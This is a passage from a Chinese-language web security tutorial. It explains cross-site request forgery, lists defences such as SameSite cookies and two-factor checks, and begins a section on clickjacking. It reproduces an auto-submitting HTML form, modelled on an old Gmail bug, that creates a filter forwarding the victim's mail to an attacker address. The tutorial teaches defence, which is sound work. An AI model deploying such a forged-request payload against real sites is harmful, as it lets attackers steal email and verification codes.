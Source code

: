 ```html
<form method="POST" action="https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf" enctype="multipart/form-data"> 
    <input type="hidden" name="cf2_emc" value="true"/> 
    <input type="hidden" name="cf2_email" value="hacker@hakermail.com"/> 
    .....
    <input type="hidden" name="irf" value="on"/> 
    <input type="hidden" name="nvp_bu_cftb" value="Create Filter"/> 
</form> 
<script> 
    document.forms[0].submit();

    // PS：有些是 post 请求，有些是 get 请求
    //     get 请求如果用 img.src 还可以规避跨域，更加危险
</script>
```

邮件经常用来接收验证码，这是很危险的事情。<br>
当然了，后来 Gmail 修复了这个漏洞。但新的故事仍在不断发生中。

CSRF 的过程
- 用户登录了 `a.com` ，有了 cookie
- 黑客引诱用户访问 `b.com` 网页，并在其中发起一个跨站请求 `a.com/api/xxx`
- `a.com` API 收到 cookie ，误以为是真实用户的请求，就受理了

CSRF 的预防
- 严格的跨域请求限制
- 为 cookie 设置 `SameSite` 不随跨域请求被发送 `Set-Cookie: key1=val1; key2=val2; SameSite=Strict;`
- 关键接口使用短信验证码等双重验证

#### 点击劫持 Clickjacking

小明被诱导到一个钓鱼网站，点击了一个按钮，其实已经关注了慕课网双越老师。因为他可能已经登录了慕课网。<br>
这可以是关注，也可以是付款转账等其他危险操作。

![](../img/点击劫持.png)
